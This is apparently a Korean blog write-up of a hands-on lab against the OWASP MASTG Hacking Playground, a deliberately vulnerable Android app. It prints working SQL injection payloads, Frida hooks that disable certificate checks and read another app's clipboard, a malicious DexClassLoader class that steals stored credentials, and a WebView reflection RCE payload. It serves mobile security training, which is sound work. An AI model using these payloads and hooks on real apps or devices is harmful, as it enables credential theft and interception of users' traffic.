







안드로이드 보안 공부하다 보면 어디서든 한 번쯤 듣게 되는 이름이 OWASP MASTG Hacking Playground입니다. MSTG(모바일 보안 테스트 가이드) 항목을 저장소, 인젝션, WebView, 네트워크까지 한 앱에 다 쑤셔 넣어 놓은, 공격 연습용 과녁입니다. 이번엔 이걸 에뮬레이터에 올려 두고 테스트 케이스 24개를 끝까지 한 번씩 눌러 봤습니다. 코드만 읽고 "이건 취약하겠네" 하고 넘기는 게 아니라, 값을 실제로 뽑고 로그인을 뚫고 코드를 돌려 보는 것까지가 이번 목표였습니다.

## 세 줄 요약

- 평문 저장, 로깅, SQL 인젝션, DexClassLoader, WebView JS 브릿지는 코드에 적힌 그대로 뚫립니다. 비밀번호를 설명 문구에 그냥 써 둔 테스트 케이스까지 있었습니다.
- 이름이 "피닝"이어도 구현이 허술하면 Frida 한 번으로 끝입니다. 이 앱의 SSL 피닝은 알고 보니 Burp Suite 기본 CA만 통과시키는, 핀 고정치고는 좀 이상한 물건이었습니다.
- API 26과 API 23을 같이 띄워 보니 같은 레거시 취약점도 버전마다 재현 조건이 달랐습니다. 런타임 권한, SELinux, 거기다 Frida가 구형 ART를 안 받아주는 것까지, 한 번씩 발목을 잡혔습니다.

## 실습 환경

```
에뮬레이터: API 26 (Android 8.0 Oreo, Pixel) + API 23 (Android 6.0 Marshmallow, Pixel), 둘 다 Google APIs x86 이미지
앱: MASTG Hacking Playground MSTG-Android-Java.apk (OWASP 공식 릴리즈 1.1)
디컴파일: jadx 1.5.7
호스트: Windows 11 + platform-tools(adb) + frida-tools
우회: Frida 17.14.1 (frida-server 17.14.1, 두 에뮬레이터 모두 x86)
프록시: mitmproxy 12.3.1
```

재미있는 디테일 하나부터. 미션 자료에는 "배포 APK(app-x86-debug)"라고 나와 있는데, 실제 저장소의 `build.gradle`을 열어 보면 ABI별로 쪼개서 빌드하는 설정이 전부 주석 처리돼 있습니다. 그대로 빌드해 봐야 그런 이름의 파일은 안 나온다는 뜻입니다. 그래서 OWASP가 GitHub Releases에 올려 둔 공식 배포 APK로 바로 넘어갔는데, 이것도 나름 교훈이 있었습니다. 배포된 바이너리가 소스 저장소의 지금 상태랑 다를 수 있다는 걸 시작부터 몸으로 확인한 셈이니까요.

에뮬레이터 둘 다 `userdebug` 빌드라 `adb root`는 바로 됩니다. 문제는 배포 APK 자체가 `debuggable`이 아니라는 것. `run-as`를 쓰려고 하면 "package not debuggable"이라며 바로 거절당해서, 결국 root로 돌아가야 했습니다.

```bash
adb root
adb install -r MSTG-Android-Java.apk
adb shell cat /data/data/sg.vp.owasp_mobile.omtg_android/shared_prefs/key.xml
```

메뉴 화면은 이렇게 생겼습니다. 버튼이 스무 개 넘게 세로로 쭉 이어져서, 처음엔 스크롤부터 해야 하나 싶었습니다.



매니페스트를 열어 보니 이 메뉴 하나만 `LAUNCHER` 인텐트 필터가 있어서 노출돼 있고, 나머지 스무 개 화면은 전부 비노출(`exported=false`)이었습니다. 그래서 `adb shell am start -n <패키지>/<액티비티>`로 바로 꽂으려 하면 매번 `Permission Denial`로 튕깁니다. 결국 `uiautomator dump`로 버튼 좌표를 뽑고 `input tap`으로 손가락 흉내를 내야 했습니다. 비노출 설정은 adb로 직통하는 길만 막아 두는 거지, 메뉴를 거쳐 들어가는 정상 경로까지 막아 주는 건 아니었습니다.

## 저장소에 평문으로 남는 것들

**SharedPreferences, 내부 저장소, SQLite**: 셋 다 패턴이 똑같습니다. 저장 직후 root 셸로 그 파일을 그대로 열면 끝입니다.

```bash
adb shell cat /data/data/sg.vp.owasp_mobile.omtg_android/shared_prefs/key.xml
#   username: administrator / password: supersecret
adb shell cat /data/data/sg.vp.owasp_mobile.omtg_android/files/test_file
#   Credit Card Number is 1234 4321 5678 8765
adb shell sqlite3 /data/data/sg.vp.owasp_mobile.omtg_android/databases/privateNotSoSecure "select * from Accounts;"
#   admin|AdminPass
```

**외부 저장소**는 한 번 걸렸습니다. `/sdcard/password.txt`를 쓰는 코드인데 처음 시도에는 `FileNotFoundException: Permission denied`만 떴습니다. 이유를 찾아보니 이 앱, `WRITE_EXTERNAL_STORAGE`를 매니페스트에만 선언해 두고 런타임에 요청하는 코드는 없었습니다. API 23 이후 런타임 권한 모델에서는 그럼 기본값이 거부입니다.

```bash
adb shell pm grant sg.vp.owasp_mobile.omtg_android android.permission.WRITE_EXTERNAL_STORAGE
adb shell cat /sdcard/password.txt
#   L33tS3cr3t
```

권한을 손으로 한 번 열어 주니 그제야 평문 파일이 써졌습니다. 레거시 취약점 하나가 최신 권한 모델을 만나면서 재현 조건까지 같이 바뀐 셈입니다.

**자작 암호**: 비밀번호 검증 화면 설명에 "Read the source and try to find out what kind of encryption is used"라고 대놓고 적혀 있습니다. 코드를 열어 보니 XOR 16, 그다음 비트 반전. 둘 다 자기 자신이 역함수라서 같은 순서로 한 번 더 돌리면 그대로 복호화됩니다. Base64로 박혀 있던 타깃 값을 거꾸로 돌려서 비밀번호를 구했고, 입력해 보니 맞았습니다.


**SQLCipher 암호화 DB**: 이번엔 Java 코드에 키가 안 보입니다. 대신 `stringFromJNI()`라는 네이티브 함수가 키를 돌려줍니다. 네이티브 라이브러리(`libnative-lib.so`)에 `strings`만 돌려 봤습니다.

```bash
strings libnative-lib.so | grep -A1 -B1 Secr
#   S3cr3tString!!!
```

이 키가 진짜 맞는지는 실제 DB로 열어 봐야 확실합니다. 테스트 케이스를 발화시켜 암호화 DB 파일부터 만들고, 앱이 이미 메모리에 올려 둔 SQLCipher 엔진을 Frida로 그대로 빌려 썼습니다.

```javascript
// Frida: 앱 프로세스 안에서 SQLCipher DB를 뽑아낸 키로 직접 열기
var db = SQLiteDatabase.openDatabase(path, "S3cr3tString!!!", null, 1);
var stmt = db.compileStatement("SELECT Password FROM Accounts LIMIT 1");
send(stmt.simpleQueryForString()); // -> AdminPassEnc
```

암호화된 파일이 그대로 열리고 `admin / AdminPassEnc`가 나왔습니다. 키 하나가 네이티브 바이너리에 박혀 있으면 암호화 자체가 무의미해진다는 걸 실제 파일로 본 셈입니다.

**AES로 암호화한 메모리 상 비밀**: `OMTG_DATAST_011_Memory`는 AES-128 기밀성 키와 HMAC-SHA256 무결성 키를 둘 다 소스에 박아 두고, 그 키로 미리 암호화해 둔 문자열을 복호해서 메모리에만 들고 있습니다. 화면엔 아무것도 안 뜨길래 같은 키와 암호문을 그대로 들고 나와 로컬에서 AES-CBC로 돌려 봤더니 `"U got the decrypted message. Well done."`가 나왔고 HMAC 검증도 통과했습니다. 메모리에만 있다고 안전한 게 아니라, 키가 바이너리 안에 있는 순간 메모리까지 뒤질 필요조차 없어집니다.

**KeyChain**: 이건 설명 문구부터가 스포일러였습니다.



"Password is 1234." 디컴파일할 필요도 없이 화면에 비밀번호가 적혀 있습니다. 넣어 보니 인증서가 바로 추출됐습니다.



**AndroidKeyStore(올바른 예시)**: 반대로 이건 비교 기준선으로 넣어 둔 모양입니다. RSA 키페어를 `AndroidKeyStore`에 만들어서 암복호화에 쓰는데, 입력한 문자열을 암호화했다가 다시 복호화하니 원래 값 그대로 돌아왔습니다.


private key는 `getEncoded()`를 불러도 null만 나옵니다. 키 자체가 하드웨어에 가까운 영역에 묶여 있어서, 파일만 뽑아선 아무것도 못 합니다. 취약한 사례들 옆에 놓고 보니 "안전한 저장소"가 막는 건 파일 탈취 자체가 아니라 탈취한 파일을 읽는 일이라는 게 더 뚜렷해졌습니다. 다만 이 화면도 완전히 깨끗하진 않았는데, logcat을 같이 보고 있었더니 공개키 값과 암호화된 바이트가 `Log.e`로 그대로 찍혔습니다. 개인키는 못 뽑아도, 암복호화에 쓴 값을 로그에 남기는 습관 자체는 안 없어도 될 구멍이었습니다.

**로깅**: 로그인 화면에 아이디/비밀번호를 넣고 제출하면 logcat에 그대로 박힙니다.

```bash
adb logcat -d | grep OMTG_DATAST_002_Logging
#   User successfully logged in. User: mastg_tester Password: ...
```

**키보드 캐시**: 레이아웃을 뜯어 보니 이 필드엔 `android:inputType="textNoSuggestions"`가 이미 붙어 있었습니다. 입력해 봐도 예측 변환 줄엔 아무것도 안 뜹니다.


예측 변환 안 뜬다고 완전히 끝난 건 아닙니다. 서드파티 키보드 앱 자신의 학습 사전은 `/data/data/<키보드 패키지>` 안에 따로 있어서, 이번엔 거기까지 못 들어갔습니다. 설정값만 확인하고 사전 파일 추출은 다음으로 미뤘습니다.

**클립보드**: 설명 문구는 "deactivated Clipboard"라는데, 길게 눌러 보면 지극히 평범한 CUT/COPY/PASTE/SHARE 메뉴가 그대로 뜹니다. 하나도 안 꺼져 있습니다. 설명이 거짓말을 하고 있는 셈이죠.



COPY를 누른 직후 이 앱과 아무 상관없는 다른 앱(시계 앱) 프로세스에 Frida로 들어가서 시스템 클립보드를 읽어 봤습니다.

```javascript
// Frida: 전혀 다른 앱 프로세스 안에서 시스템 클립보드를 그대로 읽기
var cm = Java.cast(ctx.getSystemService("clipboard"), ClipboardManager);
send(cm.getPrimaryClip().getItemAt(0).getText()); // -> 방금 복사한 값 그대로
```

복사한 값 그대로 읽혔습니다. 여담인데 테스트 중에 에뮬레이터가 Windows 호스트 클립보드랑 자동 동기화되고 있다는 걸 알게 됐습니다. 처음엔 저랑 전혀 관계없는 호스트 PC 클립보드 내용이 그대로 읽혀서 꽤 당황했습니다. 민감해 보여서 그 값은 안 적었고, 복사 직후 바로 읽는 쪽으로 타이밍을 맞춰서 다시 재현했습니다 :)

## 입력을 코드처럼 실행시키는 것들

**로컬 SQL 인젝션**: 로그인 쿼리가 문자열 결합입니다. 아이디 칸에 `x' OR '1'='1' --`을 넣고 비밀번호는 아무거나 치면 바로 로그인됩니다.



바로 옆에 "Best Practice"라는 테스트 케이스가 하나 더 있는데, 같은 로직을 파라미터 바인딩(`?`)으로 바꿔 둔 버전입니다. 같은 페이로드로 한 번 더 찔러 봤습니다.



문자열 결합이냐 파라미터 바인딩이냐, 그 한 줄 차이가 인증 우회와 정상 거부를 가릅니다.

**ContentProvider SQL 인젝션**: 이건 겹이 두 개입니다. 먼저 ContentProvider 자체가 밖에서 보이는지부터 봤습니다.

```bash
adb root
adb shell content query --uri content://sg.vp.owasp_mobile.provider.College/students   # 성공 (root라서)
adb unroot
adb shell content query --uri content://sg.vp.owasp_mobile.provider.College/students
#   SecurityException: ... that is not exported from UID 10077
```

targetSdk 28에서 `android:exported`를 따로 안 쓰면 기본값이 false라서, 일반 앱은 루팅 없인 못 들어갑니다. 진짜 구멍은 provider가 아니라 **이 provider를 부르는 앱 자신의 검색 화면**에 있었습니다. 검색어를 `"name='" + 입력 + "'"`로 그냥 이어 붙여서 쿼리에 넘기더군요. 화면에 직접 `zzzzz' OR '1'='1`을 넣고 조회를 눌렀습니다.



존재하지도 않는 이름(`zzzzz`)으로 찾았는데 미리 넣어 둔 레코드가 그대로 나왔습니다. 괄호를 닫고 `UNION SELECT`까지 붙이면 `sqlite_master` 스키마까지 긁어낼 수 있었습니다. 여기서 사고가 하나 있었는데, 처음엔 안드로이드 키보드 자동완성이 끼어들어서 `nobody`를 `nobody's`로 제멋대로 고쳐 버렸습니다. 따옴표 개수가 안 맞으니 SQL 구문 에러가 났고, 앱이 그대로 죽었습니다.


성공하면 정보가 새고, 깨지면 다운됩니다. 키보드 자동완성 하나로 멀쩡한 앱을 떨어뜨린 경험이었습니다(사전에 안 걸리는 글자로 다시 치니 깔끔하게 성공했습니다). `_id` 경로 세그먼트 쪽 인젝션 포인트도 코드엔 있긴 한데, `UriMatcher`가 숫자로만 이루어진 세그먼트만 매치해서 실제로는 도달이 안 되는 죽은 코드였습니다. 코드만 보고 바로 취약하다고 단정하면 안 되는 사례 하나 더.

**DexClassLoader 코드 실행**: `/sdcard`에서 jar를 읽어 `DexClassLoader`로 클래스를 올리고 리플렉션으로 메서드를 부르는 코드입니다. 직접 악성 jar를 만들어 봤습니다. `ActivityThread.currentActivityThread()`를 리플렉션으로 타고 들어가면 인자로 Context를 받지 않아도 지금 실행 중인 앱의 Context를 훔칠 수 있습니다.

```java
// 공격자가 심은 클래스: Context를 안 받아도 현재 앱의 SharedPreferences를 훔친다
Context ctx = (Context) activityThreadClass.getMethod("getApplication")
    .invoke(activityThreadClass.getMethod("currentActivityThread").invoke(null));
return ctx.getSharedPreferences("key", 0).getString("password", "?");
```

`javac` + `d8`로 dex를 뽑고 jar로 말아서 `/sdcard/libcodeinjection.jar`에 던져 놓은 뒤 테스트 케이스를 발화시켰더니 logcat에 이렇게 찍혔습니다.

```
E Test : MASTG-DexClassLoader-PoC: arbitrary code executed inside host app
  (pkg=sg.vp.owasp_mobile.omtg_android), stole SharedPreferences creds: administrator/supersecret
```

/sdcard에 쓰기 권한만 있으면 됩니다. 다른 앱이든 adb든, 그 순간 피해 앱 프로세스 안에서 코드가 돌고 자격증명까지 그대로 털립니다.

## WebView에서 벌어지는 일들

**JS 브릿지**: 리모트 WebView는 `rawgit.com` 페이지를 불러오는데, 이 서비스는 2019년에 이미 문을 닫았습니다.


페이지는 죽었어도 `addJavascriptInterface(..., "Android")`로 심어 둔 브릿지 객체는 WebView 인스턴스에 그대로 살아 있습니다. Frida로 살아 있는 WebView를 찾아서 JS를 직접 밀어 넣었습니다.

```javascript
// Frida: 죽은 페이지 위에서도 JS 브릿지는 여전히 살아 있다
webview.evaluateJavascript("javascript:Android.returnString()", null);
// logcat: BRIDGE_OK:Secret String
```

원격 페이지가 죽어 있어도 상관없습니다. 공격자가 그 자리를 자기 페이지로 바꿔치기하거나 MITM만 해내면 같은 방식으로 시크릿을 가져갈 수 있다는 뜻이니까요.

**로컬 WebView와 getClass() RCE**: 로컬 WebView는 에셋에 들어 있는 HTML을 로드하는데, 그 안에 옛날 방식 WebView RCE 페이로드가 이미 심어져 있습니다.

```javascript
window.jsinterface.getClass().forName('java.lang.Runtime')
  .getMethod('getRuntime', null).invoke(null, null).exec(cmd);
```

발화시켜 보니 `jsinterface.getSomeString()`의 결과인 `"string"`은 alert로 떴는데, `getClass()` 호출 쪽은 그냥 막혔습니다.


```
chromium: [INFO:CONSOLE] "Uncaught TypeError: window.jsinterface.getClass is not a function"
```

API 17부터 `@JavascriptInterface`를 붙인 메서드만 JS에 노출되도록 바뀐 덕분입니다. 어노테이션이 없는 `getClass()` 같은 메서드는 JS 쪽에서 아예 존재 자체를 모릅니다. `/storage/emulated/0/mstg.txt`도 당연히 생기지 않았고요. 옛날 블로그에 자주 나오던 WebView RCE가 지금은 플랫폼 차원에서 막혀 있다는 걸 로그로 직접 눈으로 확인했습니다.

## 네트워크: 프록시와 피닝

**평문 전송(Secure Channel)**: 같은 화면에 `http://example.com`과 `https://example.com`을 나란히 띄워서 비교시킵니다.


평문을 잡으려고 mitmproxy를 띄우고 디바이스 전역 프록시를 호스트 PC로 돌렸는데, 이 WebView가 전역 프록시 설정을 그냥 무시했습니다. Frida로 소켓을 직접 열어 보니 호스트까지 TCP 연결은 멀쩡해서, 네트워크 문제가 아니라 Chromium 기반 WebView가 레거시 전역 프록시 설정을 안 타는 게 원인이었습니다. 결국 같은 URL을 WebView와 같은 프로세스 안에서 프록시를 직접 지정해 요청했습니다.

```
[REQUEST] http://example.com/
  Header: User-Agent: Dalvik/2.1.0 (Linux; U; Android 8.0.0; ...)
[RESPONSE] http://example.com/ -> 200
  Body: <!doctype html>...<title>Example Domain</title>...
```

요청 헤더(기기 정보 포함)부터 응답 바디까지 다 평문으로 읽힙니다. 같은 방식으로 `https://`를 쏘면 `SSLHandshakeException: Trust anchor for certification path not found`로 바로 막힙니다. mitmproxy CA를 기기에 심지 않는 이상 HTTPS는 그대로는 안 뚫립니다.

**SSL 피닝**: 이 테스트 케이스의 "피닝"은 좀 특이합니다. 서버 인증서를 검증할 때 발급자 DN에 `",O=PortSwigger,"`라는 문자열이 있는지만 봅니다. PortSwigger는 Burp Suite가 기본으로 발급하는 CA 이름입니다. 진짜 서버 인증서에 피닝된 게 아니라, Burp 같은 특정 MITM 프록시의 기본 CA만 통과시키는 구조였던 겁니다.

```javascript
// Frida: 커스텀 TrustManager를 통째로 무력화
HardenedX509TrustManager.checkServerTrusted.implementation = function (chain, authType) {
    send("REAL_ISSUER:" + chain[0].getIssuerDN().getName());
    // 아무 것도 안 함 = 무조건 통과
};
```

후킹해서 들여다보니 서버가 실제로 내려준 인증서 발급자는 `CN=Cloudflare TLS Issuing ECC CA 3, O=SSL Corporation`이었습니다. 원래 코드대로면 PortSwigger가 아니니 거부돼야 맞는데, Frida로 검증 함수를 통째로 들어내니 그냥 통과했습니다. 화이트리스트 자체도 이상한데, 그 화이트리스트 검사마저 한 번에 걷힙니다.

**정석대로 구현한 인증서 피닝**: 바로 옆 테스트 케이스는 서버 인증서를 앱 안에 통째로 넣어 두고 피닝하는, 교과서에 나올 법한 구현입니다. 그런데 번들된 인증서를 열어 보니 `CN=www.example.org`, 유효기간이 2015년 11월부터 2018년 11월까지였습니다. 지금 실제로 접속하면 서버는 전혀 다른 Cloudflare 인증서를 내려주니, 구현이 맞든 틀리든 무조건 실패합니다.


```
CertPathValidatorException: Trust anchor for certification path not found.
```

코드는 멀쩡한데 시간이 지나서 깨진 경우입니다. 동적 테스트에서 실패가 뜬다고 바로 취약점이다 아니다로 단정하면 안 된다는 걸 또 한 번 배웠습니다.

## API 23으로 돌아가서: MODE_WORLD_READABLE

마지막 하나는 지금까지 쓰던 API 26이 아니라 API 23(Android 6.0 Marshmallow) 에뮬레이터를 따로 띄워야 했습니다. `Context.MODE_WORLD_READABLE`은 API 24부터 상수 자체가 제거돼서, 호출하면 `SecurityException`이 뜨는 공식적으로 죽은 기능이거든요.

여기서 또 걸렸습니다. 최신 Frida(17.x)로 이 구형 ART를 후킹하려니 `Java.perform`이 `Error: Unable to find fields in java/lang/Thread`로 바로 실패했습니다. API 26에서 멀쩡했던 똑같은 스크립트가 API 23에서만 깨진 겁니다. 최신 Frida의 Java 브릿지가 이 정도로 오래된 ART 내부 구조까지는 더 이상 챙겨 주지 않는 모양입니다.

API 호출 자체를 못 쓰니, 대신 그 호출이 만들어낼 결과물인 파일 권한 비트를 직접 재현했습니다. `su`로 앱 UID로 전환해서 파일 두 개를 만들었습니다.

```bash
su u0_a61 sh /sdcard/worldreadable_poc.sh
#   world_readable_poc.txt -> chmod 644  (MODE_WORLD_READABLE 흉내)
#   mode_private_poc.txt   -> chmod 600  (기본 MODE_PRIVATE)

su 10060 cat .../world_readable_poc.txt   # 성공, 전혀 다른 앱 UID인데 그냥 읽힘
su 10060 cat .../mode_private_poc.txt     # Permission denied
```

전혀 다른 앱 UID로 world-readable 파일은 그대로 읽히고 private 파일은 막혔습니다. `getenforce`로 확인해 보니 SELinux가 Enforcing 상태였는데도 뚫렸는데, 이건 `su`가 도는 도메인이 테스트 빌드 특성상 넓게 허용돼 있어서일 가능성이 큽니다. 그래서 이건 유닉스 권한(DAC) 레벨 취약점은 확실히 보여주지만, 서드파티 앱이 SELinux까지 완전히 뚫고 들어온다는 뜻까지는 아니라는 걸 밝혀 둡니다.

## 24개 케이스 한눈에 보기

